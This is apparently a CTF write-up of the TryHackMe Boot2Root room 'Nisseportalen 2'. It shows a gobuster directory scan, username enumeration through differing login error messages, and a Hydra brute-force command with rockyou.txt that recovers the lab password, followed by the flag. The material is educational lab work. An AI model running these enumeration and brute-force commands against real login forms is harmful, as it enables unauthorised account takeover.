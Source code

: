 +++
title = 'Nisseportalen 2'
categories = ['Boot2Root']
date = 2024-12-15T13:34:38+01:00
scrollToTop = true
+++

## Challenge Name:

Nisseportalen 2

## Category:

Boot2Root

## Challenge Description:

Nissernes største ønske er en portal til deling af alle deres AI-genererede billeder aka Nisseportalen. Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen.

Praktikantnissen har fået til opgave at redde Nisseportalen og få ryddet op i Nissedevs rod. Kan du hjælpe med at redde Nisseportalen og finde alle de sårbarheder, der må være, så projektet endelig kan blive gjort færdigt?

Men vær beredt, det er ikke til at sige hvad Nissedev har haft gang i...

[https://tryhackme.com/jr/nisseportalen2o24](https://tryhackme.com/jr/nisseportalen2o24)

## Approach

We pick up where we left off in [Nisseportalen 1](/nc3/boot2root/nisseportalen-1) and continue to enumerate the webapp, scanning for subdirectories under /portal!

### Enumeration

We fire off a [gobuster](https://tools.kali.org/web-applications/gobuster) scan to see if we can find any hidden directories under the newly discovered /portal directory!

```bash
gobuster dir -u http://nisseportalen.nc3/portal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak,old

/index.html           (Status: 200) [Size: 150]
/index.php            (Status: 200) [Size: 777]
/.html                (Status: 403) [Size: 283]
/.php                 (Status: 403) [Size: 283]
/login.php            (Status: 200) [Size: 1764]
/uploads              (Status: 301) [Size: 333] [--> http://nisseportalen.nc3/portal/uploads/]
/list.php             (Status: 200) [Size: 500]
/admin.php            (Status: 200) [Size: 1478]
/upload.php           (Status: 200) [Size: 1055]
/filter.php           (Status: 200) [Size: 0]
/billeder.txt         (Status: 200) [Size: 66]
/.php                 (Status: 403) [Size: 283]
/.html                (Status: 403) [Size: 283]
```

We find a plethora of interesting files and directories, including /login.php, /uploads, /list.php, /admin.php, /upload.php, /filter.php, and /billeder.txt!

### Exploitation

I spent SO much time, diving through the source code of every single page, noting down the images in the billeder.txt file.
I even discovered that the images can be accessed by changing the URL to /portal/uploads/images/[image_name].jpg, but I couldn't find anything useful in the images themselves (and based on several previous uploads to my favorite quick image analysis tool, [AperiSolve](https://www.aperisolve.com/), I saw that several other contestants also tried this aproach...).

I ended up focusing on the /portal/login.php page, where I found a login form. I tried to log in with the default credentials, without luck.
I attempted to run SQL injection attacks with sqlmap, again without any luck.

Mostly based on luck, I noticed that the user "test" yielded a different error message than the user "admin" when trying to log in!

![Admin login](images/login-default-error.png)

![Test login](images/login-information-leaking.png)

### Getting foothold on the webapp

This abosolutely caught my interest and led me fire off a Hydra attack against the login form, using the user "test" and the rockyou.txt wordlist!

```bash
hydra -l test -P /usr/share/wordlists/rockyou.txt -f nisseportalen.nc3 http-post-form "/portal/login.php:Username=^USER^&Password=^PASS^:Forkert kodeord"
```

After just short of 10 minutes of running the Hydra attack, I found the password for the user "test"!

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://nisseportalen.nc3:80/portal/login.php:Username=^USER^&Password=^PASS^:Forkert kodeord
[STATUS] 4564.00 tries/min, 4564 tries in 00:01h, 14339834 to do in 52:22h, 16 active
[STATUS] 4661.00 tries/min, 13983 tries in 00:03h, 14330415 to do in 51:15h, 16 active
[STATUS] 4685.57 tries/min, 32799 tries in 00:07h, 14311599 to do in 50:55h, 16 active
[80][http-post-form] host: nisseportalen.nc3   login: test   password: tester
[STATUS] attack finished for nisseportalen.nc3 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

### Getting second flag

Shortly after logging into portal, I was immediately greeted with the second flag, which was we can submit and move on to [Nisseportalen3](/nc3/boot2root/nisseportalen-3)!

![Foothold](images/foothold.png)

## Flag

```text
NC3{Flag2:9aMl3_kod3R_ru573r_AlDrI9}
```

## Reflections and Learnings

### Persistence Pays Off

Just keep trying! With this part of the challenge, SO SO many hours went into investigating the different "dead-ends" I encountered. But, as always, persistence pays off!

### Importance of Error Messages

The differing error messages provided a critical clue that helped narrow down the attack path. This reinforces the importance of examining even minor inconsistencies during enumeration and testing phases.
This displayed a very typical example of information leakage, where the application provides different responses based on the input provided. This can be a goldmine for attackers, as it can reveal valuable information about the application's inner workings.

### Wordlists are Valuable, at least for CTFs!

Utilizing the rockyou.txt wordlist with Hydra is a "go-to" in CTFs!
In the real world, rockyou will sometimes be very useful, but often much more computationally demanding!
My rule of thumb is to always give rockyou 1 hour of runtime, and if I haven't found the password by then, I'll move on to test out other paths!

### Automation is key

The power of Hydra to automate credential brute-forcing saved significant time and effort. It’s a reminder to leverage automation tools effectively in CTF challenges to focus manual efforts where they’re most impactful.
